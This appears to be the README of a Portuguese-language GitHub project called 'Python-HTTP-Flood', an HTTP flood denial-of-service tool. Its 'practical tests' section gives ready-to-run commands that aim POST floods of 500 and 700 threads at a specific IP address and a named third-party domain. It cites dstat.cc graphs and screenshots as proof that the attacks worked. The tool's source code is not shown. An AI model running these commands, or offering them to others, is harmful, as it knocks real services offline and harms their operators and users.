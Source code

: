 # Python-HTTP-Flood

Testes na pática
https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142post.png)
`python main.py http://142.171.195.145/HIT POST 500`

https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecpost.png)
`python main.py https://nodec.mediathektv.com POST 700`

